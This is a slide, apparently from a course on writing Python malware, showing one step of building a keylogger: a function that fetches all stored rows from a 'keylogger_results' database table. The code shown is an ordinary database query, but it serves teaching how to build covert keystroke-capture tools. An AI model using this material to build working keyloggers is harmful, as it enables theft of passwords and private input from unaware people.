

Python Malwares (cont.)
Writing a Keylogger (cont.)
Next, we will write a function that will fetch all the rows from the database so that they can be printed:
def get_keylogs(conn):
    try:
        c = conn.cursor()
        c.execute("SELECT * FROM keylogger_results")
        return c.fetchall()
    except Exception as e:
        print(e)
143